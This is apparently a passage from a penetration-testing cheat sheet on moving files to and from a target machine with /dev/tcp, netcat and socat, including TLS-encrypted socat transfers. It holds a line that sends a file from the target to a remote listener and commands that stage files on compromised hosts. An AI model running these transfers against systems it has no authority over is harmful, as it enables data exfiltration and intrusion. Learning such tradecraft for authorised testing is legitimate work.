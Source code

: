 On the target machine upload the file using using `/dev/tcp/` :
```bash
cat inputfile.txt > /dev/tcp/10.0.2.4/4545
```

## Download Files

On your own machine start a listener with the file as input:
```bash
nc -vlnp 4545 -q 0 < sourcefile.txt
```

On the target download the file by connecting to the listener:
```bash
( cat </dev/tcp/127.0.0.1/4545 ) > targetfile.txt
```


## Socat

```default
   _____        _____       _______ 
  / ____|      / ____|   /\|__   __|    /\_/\  (  
 | (___   ___ | |       /  \  | |      ( ^.^ ) _) 
  \___ \ / _ \| |      / /\ \ | |        \"/  (
  ____) | (_) | |____ / ____ \| |      ( | | )
 |_____/ \___/ \_____/_/    \_\_|     (__d b__)

```

Socat can do basically do all of the things Netcat can do (*in a more complex, harder to memorize syntax*) and more! But of particular interest is the ability to encrypt a connection.

Regular TCP file transfer:
```bash
socat -u FILE:"/tmp/whatever/test.txt" TCP-LISTEN:5778,reuseaddr
```

Connect and download:
```bash
socat -u TCP:192.168.1.97:5778 STDOUT > /tmp/target/test.txt
```

### SSL/TLS encrypted

Create cert on server side:
```bash
openssl genrsa -out /tmp/whatever/socat.key 4048
openssl req -new -key /tmp/whatever/socat.key -x509 -days 3653 -out /tmp/whatever/socat.crt
cat /tmp/whatever/socat.key /tmp/whatever/socat.crt > /tmp/whatever/socat.pem
chmod 600 /tmp/whatever/socat.key /tmp/whatever/socat.pem
```

#### Download file to target

Start listener:
```bash
socat -u FILE:"/tmp/whatever/download.txt" openssl-listen:5778,reuseaddr,cert=/tmp/whatever/socat.pem,verify=0
```
